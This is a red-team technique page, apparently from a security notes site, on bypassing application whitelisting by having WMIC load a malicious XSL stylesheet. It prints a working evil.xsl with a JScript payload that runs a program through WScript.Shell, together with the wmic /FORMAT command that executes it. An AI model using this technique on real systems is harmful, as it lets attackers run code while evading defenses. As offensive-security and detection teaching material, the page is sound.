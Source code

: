 ```yaml
---
layout: post
title: "2024-06-18-application whitelisting bypass with wmic and xsl"
date: 2024-06-18
categories: code-execution
tags: redteam, mitre, killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /application-whitelisting-bypass-with-wmic-and-xsl/
---
```


# Application Whitelisting Bypass with WMIC and XSL

Another application whitelist bypassing technique discovered by Casey @subTee, similar to squiblydoo:

{% content-ref url="t1117-regsvr32-aka-squiblydoo.md" %}
[t1117-regsvr32-aka-squiblydoo.md](t1117-regsvr32-aka-squiblydoo.md)
{% endcontent-ref %}

## Execution

Define the XSL file containing the jscript payload:

{% code title="evil.xsl" %}
```csharp
<?xml version='1.0'?>
<stylesheet
xmlns="http://www.w3.org/1999/XSL/Transform" xmlns:ms="urn:schemas-microsoft-com:xslt"
xmlns:user="placeholder"
version="1.0">
<output method="text"/>
	<ms:script implements-prefix="user" language="JScript">
	<![CDATA[
	var r = new ActiveXObject("WScript.Shell").Run("calc");
	]]> </ms:script>
</stylesheet>
```
{% endcode %}

Invoke any wmic command now and specify /format pointing to the evil.xsl:

{% code title="attacker@victim" %}
```csharp
wmic os get /FORMAT:"evil.xsl"
```
{% endcode %}

![](<../../.gitbook/assets/Screenshot from 2019-04-10 22-05-24.png>)

## Observation

Calculator is spawned by svchost.exe:

![](<../../.gitbook/assets/Screenshot from 2019-04-10 21-57-52.png>)

## References

{% embed url="http://subt0x11.blogspot.com/2018/04/wmicexe-whitelisting-bypass-hacking.html" %}

@spotheplanet
